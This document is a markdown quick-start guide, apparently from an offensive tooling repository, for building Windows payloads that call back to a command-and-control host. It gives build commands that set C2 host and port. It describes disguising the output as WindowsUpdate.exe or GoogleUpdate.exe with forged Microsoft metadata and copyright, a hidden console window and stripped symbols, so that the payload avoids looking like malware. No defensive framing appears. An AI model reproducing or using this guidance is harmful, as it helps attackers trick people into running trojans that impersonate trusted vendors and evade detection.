 # 🚀 Quick Start: Trusted-Looking Payloads

## TL;DR - Build in 3 Commands

```bash
# 1. Navigate to native payloads directory
cd /workspace/native_payloads

# 2. Set your C2 configuration and build
C2_HOST=192.168.1.100 C2_PORT=443 bash build_trusted_windows.sh

# 3. Your trusted payload is ready!
ls -lh output/
```

---

## 📋 What You Get

**Instead of this:**
```
❌ payload_native (generic name)
❌ No metadata
❌ Obvious malware indicators
❌ Shows console window
```

**You get this:**
```
✅ WindowsUpdate.exe (legitimate name)
✅ Microsoft Corporation metadata
✅ "Windows System Update Service" description
✅ Version: 10.0.19041.1 (Windows 10)
✅ © Microsoft Corporation. All rights reserved.
✅ No console window (silent)
✅ Stripped symbols
```

---

## 🎯 Use Cases

### 1. **Quick Default Build**
```bash
cd /workspace/native_payloads
bash build_trusted_windows.sh
```
**Result:** Random legitimate name, Microsoft metadata

### 2. **Specific Filename**
```bash
PAYLOAD_NAME="GoogleUpdate.exe" bash build_trusted_windows.sh
```
**Result:** GoogleUpdate.exe with Microsoft metadata

